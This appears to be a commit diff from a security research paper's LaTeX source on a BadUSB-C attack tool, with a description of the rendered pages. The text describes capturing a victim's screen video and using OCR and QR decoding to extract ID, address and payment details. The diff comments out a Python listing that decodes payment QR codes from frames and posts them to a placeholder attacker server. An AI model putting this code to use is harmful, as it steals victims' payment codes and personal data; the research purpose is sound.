

Before and after one commit to jwnhy/WOOT-BadUSB-C, a LaTeX paper (WOOT/BadUSBC.tex, which reads WOOT/Files/experiment.tex): two parts of the columns of pages 6 and 7 of 10 before the commit and part of one column of page 6 of 10 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX; a missing font is replaced by an installed copy or a similar font; a LaTeX package or settings file that is missing is left out.

Commit message:
Remove cv code

```diff
--- a/WOOT/Files/experiment.tex
+++ b/WOOT/Files/experiment.tex
@@ -35,35 +35,35 @@ In the privacy extraction mode experiment, ``HUAWEI P30'', a smartphone in EMUI
 First, we connect \tool to the target device. As remote control mode, \tool capture video from the victim's device and use ``opencv'' to identify ``valuable'' information from video stream. When the victim views text or photoes with text, \tool can use optical character recognition (OCR) to extract text from corresponding video frames. \yechang{hyperlink to OCR?}
 For example, extracting the victim's name, photo, address, and ID number when victim is viewing his or her photos of his or her ID card or passport documents,
 extracting the victim's payment information when victim is using bank apps or payment apps. Besides, \tool can use ``opencv'' to detect and decode QR codes or barcodes shown on the victim's device, which is expected to extract payment code information in payment apps.
-Here is an example of extracting payment code with opencv library in listing~\ref{lst2:qr},
+Here is an example of extracting payment code with opencv library in listing. \shuqing{Need to be modified.}
 
 Privacy extraction mode only extracts high-value information for attacker (or highly sensitive information for victim), which is more efficient to  than remote control mode.
 
-\begin{lstlisting}[caption={python script for extracting payment code of victim},label=lst2:qr]
-import cv2, qrcode,requests
-import pyzbar.pyzbar as pyzbar
-def decodeDisplay(video):
-    gray = cv2.cvtColor(video, cv2.COLOR_BGR2GRAY)
-    barcodes = pyzbar.decode(gray)
-    for barcode in barcodes:
-        barData = barcode.data.decode()
-        barType = barcode.type
-        requests.post('<server of attacker>',
-            data={
-                'data': barData,
-                'type': barType
-            }
-        )
-if __name__ == '__main__':
-    cam = cv2.VideoCapture(0)
-    while True:
-        ret, frame = cam.read()
-        decodeDisplay(frame)
-        if cv2.waitKey(5) == 27:
-            break
-    cam.release()
-    cv2.destroyAllWindows()
-\end{lstlisting}
+%\begin{lstlisting}[caption={python script for extracting payment code of victim},label=lst2:qr]
+%import cv2, qrcode,requests
+%import pyzbar.pyzbar as pyzbar
+%def decodeDisplay(video):
+%    gray = cv2.cvtColor(video, cv2.COLOR_BGR2GRAY)
+%    barcodes = pyzbar.decode(gray)
+%    for barcode in barcodes:
+%        barData = barcode.data.decode()
+%        barType = barcode.type
+%        requests.post('<server of attacker>',
+%            data={
+%                'data': barData,
+%                'type': barType
+%            }
+%        )
+%if __name__ == '__main__':
+%    cam = cv2.VideoCapture(0)
+%    while True:
+%        ret, frame = cam.read()
+%        decodeDisplay(frame)
+%        if cv2.waitKey(5) == 27:
+%            break
+%    cam.release()
+%    cv2.destroyAllWindows()
+%\end{lstlisting}
 
 
 \subsection{Case study}
```
